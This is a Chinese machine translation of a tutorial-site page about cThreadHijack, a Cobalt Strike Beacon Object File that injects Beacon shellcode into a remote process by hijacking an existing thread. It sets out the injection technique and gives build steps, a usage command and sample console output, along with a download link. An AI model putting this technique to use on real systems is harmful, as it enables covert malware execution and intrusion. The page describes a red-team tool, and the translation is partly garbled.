 # CThreadHijack:通过线程劫持进行远程进程注入的信标对象文件(BOF)

> 原文：<https://kalilinuxtutorials.com/cthreadhijack/>

[![Objection : Runtime Mobile Exploration](img//97d6cd69f3d4ed779934ae6cc3c6d6de.png "Objection : Runtime Mobile Exploration")](https://1.bp.blogspot.com/-JAQ9YhZKHIc/XSvuGuda9dI/AAAAAAAABV0/W0c1HfCGOloUp5rmRDttaCP9hg41P6uLwCLcBGAs/s1600/objection%25281%2529.png)

cThreadHijack 是一个信标对象文件(BOF ),用于通过线程劫持进行远程进程注入，而不会产生远程线程。附带的博客可以在这里找到。cThreadHijack 通过`**VirtualAllocEx**`和`**WriteProcessMemory**`将通过用户提供的监听器参数生成的原始信标外壳代码注入到由用户提供的 PID 参数定义的远程进程中。然后，cThreadHijack 识别目标进程中的第一个枚举线程，挂起它，并通过一个`CONTEXT`结构检索线程 CPU 状态的内容，而不是通过`**CreateRemoteThread**`或其他 API 生成一个新的远程线程。然后，`CONTEXT`结构的 RIP 寄存器成员(在 64 位系统上)被操作指向前面提到的远程有效载荷的地址。在执行之前，添加了一个例程，将 Beacon 外壳代码封装在对`**CreateThread**`的调用中——让 Beacon 拥有自己的线程，这个线程是本地产生的，而不是远程产生的。`**CreateThread**`例程还被包装在`**NtContinue**`函数调用例程中，允许恢复之前被劫持的线程，而不会使远程进程崩溃。cThreadHijack 的信标有效负载由一个“线程”退出函数生成，允许在信标退出后继续处理。包含空格的信标侦听器名称必须用引号括起来。

**大楼**

*   在 Windows 机器上，打开一个`**x64 Native Tools Command Prompt for VS**`提示符。这可以通过按 Windows 键并键入`x64 Native Tools`并选择提示符来完成。
*   将目录改为 **`C:\path\to\cThreadHijack`。**
*   `**nmake -f Makefile.msvc build**`
*   用`**load /path/to/cThreadHijack.cna**`通过钴击`**Script Console**`加载 cThreadHijack.cna

**用法**

**cThreadHijack PID LISTENER _ NAME**

**beacon>cThreadHijack 7340 测试
[+]主机调用 home，发送:268433 字节
[+]接收输出:
[+]目标进程 PID: 7340
[+]接收输出:
[+]打开一个句柄给 PID 7340
[+]接收输出:
[+]在目标进程中发现一个线程！线程 ID: 10212
[+]接收到的输出:
[+]挂起目标线程…
[+]接收到的输出:
[+]向远程进程写入信标外壳代码！
[+]接收到的输出:
[+]远程进程内部分配在 0x201f4ab0000 的 CreateThread 和 NtContinue 例程的虚拟内存！
[+]接收到的输出:
[+]nt continue 例程的大小:64 字节
[+]上下文结构的大小:1232 字节
[+]堆栈对齐例程的大小:4
[+]create thread 例程的大小:64
[+]shellcode 的大小:261632 字节
[+]接收到的输出:
[+]将缓冲区的有效载荷写入之前在中分配的缓冲区！
[+]接收输出:
[+]当前 RIP: 0x7ffa55df69a4
[+]接收输出:
[+]成功将目标线程的 RIP 寄存器指向 shellcode！
[+]接收输出:
[+]当前 RIP: 0x201f4ab0000
[+]接收输出:
[+]恢复线程！请稍等片刻，信标有效负载将执行…**

[**Download**](https://github.com/connormcgarr/cThreadHijack)